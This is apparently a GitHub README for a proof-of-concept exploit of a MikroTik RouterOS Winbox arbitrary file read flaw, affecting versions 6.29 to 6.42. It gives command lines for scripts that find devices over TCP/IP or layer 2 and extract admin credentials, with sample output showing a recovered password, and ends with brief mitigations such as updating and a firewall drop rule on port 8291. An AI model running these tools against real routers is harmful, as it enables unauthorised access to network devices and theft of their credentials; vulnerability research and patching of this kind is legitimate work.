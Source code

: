 # WinboxExploit
Proof of Concept of Winbox Critical Vulnerability  
Arbitrary file read

# Blogpost
https://n0p.me/winbox-bug-dissection/


## How to use

Note that this script will NOT run with Python2.x. Use only Python 3+

Winbox (TCP/IP)
```
$ python3 WinboxExploit.py 172.17.17.17

User: admin
Pass: Th3P4ssWord

```  

MAC server Winbox (Layer 2)  
You can extract files even if the device doesn't have an IP address :-)
```
$ python3 MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)

    aa:bb:cc:dd:ee:ff 

    aa:bb:cc:dd:ee:aa

```
```
$ python3 MACServerExploit.py aa:bb:cc:dd:ee:ff

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!
